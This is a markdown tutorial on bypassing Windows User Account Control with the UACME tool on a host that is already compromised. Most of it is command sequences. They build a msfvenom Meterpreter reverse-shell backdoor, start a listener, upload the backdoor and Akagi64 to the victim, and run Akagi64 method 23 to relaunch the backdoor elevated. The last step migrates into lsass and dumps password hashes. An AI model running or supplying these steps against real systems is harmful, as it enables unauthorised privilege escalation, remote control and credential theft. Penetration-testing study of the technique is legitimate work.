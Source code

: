 # Bypassing UAC

## Explanation

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

## Bypassing UAC with UACME

### In Kali host

1. Start a meterpreter session on an already exploited victim host, migrate to a process used by the system, and trying to get system level privilege (access denied is probably result) : 
```
meterpreter > getuid
meterpreter > migrate -N explorer.exe
meterpreter > getsystem
```

2. Checking if the user is a member of administrators group, CTRL+C for quit shell session : 
```
meterpreter > shell
meterpreter > net localgroup administrators
C:\Windows\system32>^C
Terminate channel 1? [y/N] Y
meterpreter >
```

3. Open another terminal in your Kali, and generate malicious windows executable (a windows meterpreter reverse shell) : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-local-ip> LPORT=4444 -f exe > 'backdoor.exe'
```

4. Download UACME tool, for obtain Akagi executable : 
```
git clone https://github.com/hfiref0x/UACME
```

5. Start another meterpreter for create multi handler listener : 
```
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 > set LHOST <your-local-ip>
msf6 > set LPORT 4444
msf6 > exploit
```

6. Return to the meterpreter session from step 2, and switch current directory to user's temp directory : 
```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\Users\\admin\\AppData\\Local\\Temp
```

7. Upload a windows meterpreter reverse shell and Akagi files in victim host :
```
meterpreter > upload /root/backdoor.exe
meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe .
```

### In victim host

Start Akagi64 executable with 23 argument (for bypassing UAC), and your windows meterpreter reverse shell  : 
```
meterpreter > shell
meterpreter > dir
C:\Users\admin\AppData\Local\Temp > .\Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

### In listener

And finally, go to your multi handler listener, migrate to processus, and verify your new privileges : 
```
meterpreter > migrate -N lsass.exe
meterpreter > getsystem
meterpreter > getuid
meterpreter > getprivs
meterpreter > hashdump
```